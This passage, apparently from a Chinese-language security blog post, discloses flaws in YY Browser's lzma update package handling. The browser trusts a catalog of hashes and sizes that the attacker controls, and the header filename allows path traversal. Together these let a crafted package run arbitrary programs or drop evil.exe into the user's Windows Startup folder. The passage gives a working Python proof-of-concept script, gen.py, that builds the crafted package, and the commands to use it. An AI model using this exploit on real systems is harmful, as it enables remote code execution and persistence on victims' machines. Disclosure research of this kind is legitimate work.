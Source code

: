 接着使用脚本gen.py（见测试代码）生成带有头部信息的文件：
```bash
$ python gen.py loaderjz.dll
output.lzma||3a94912118bc172065d643e1aa847b0d||5794||9bc1ee40c622a0d7a1f96a6c9119bbe6||12288
```
将生成的output.lzma覆盖`loaderjz.dll.lzma`，并将`loader_catalog.txt`中的值修改成上述命令的输出，使用YY浏览器访问测试页面。就可以执行任意程序了。

![](http://ww1.sinaimg.cn/large/7184df6bgw1f4y97swvl3g20qu0h979t.gif)


## 0x04 任意路径写入漏洞导致RCE

在测试的过程中，我还发现头部信息中的文件名可以使用`..`跳转到上一级目录中，也就是说我们可以利用这个点来将一个可执行文件写入到用户的启动目录中。在生成头部信息时，只需要使用文件名：`..\\..\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\evil.exe`，YY浏览器在下载这个生成的lzma文件之后就会自动将这个文件写入到启动目录中。

![](http://ww1.sinaimg.cn/large/7184df6bgw1f4y9vhta2qj20lu06rabw.jpg)

### 测试代码

gen.py

```python
import struct
import os
import sys
import hashlib

inputFileName = sys.argv[1]
#fileName = "..\\..\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\evil.exe"
fileName = "loaderjz.dll"
fileNameLength = len(fileName) + 1
lzmaFile = inputFileName + ".lzma"
outputFile = "output.lzma"

def md5(fname):
    hash_md5 = hashlib.md5()
    with open(fname, "rb") as f:
        for chunk in iter(lambda: f.read(4096), b""):
            hash_md5.update(chunk)
    return hash_md5.hexdigest()

with open(outputFile, "wb") as f:
    f.write(struct.pack('I', 32 + fileNameLength))
    f.write(struct.pack('I', os.path.getsize(lzmaFile) + 1))
    f.write(struct.pack('I', os.path.getsize(inputFileName)))
    f.write(struct.pack('H', fileNameLength))
    f.write(struct.pack('H', 0x11))
    f.write('\x00' * 16)
    f.write(fileName)
    f.write('\x00' * 2)
    with open(lzmaFile, "rb") as lzmaF:
        f.write(lzmaF.read())

print outputFile + "||" + md5(outputFile) + "||" + str(os.path.getsize(outputFile)) +\
        "||" + md5(inputFileName) + "||" + str(os.path.getsize(inputFileName))
```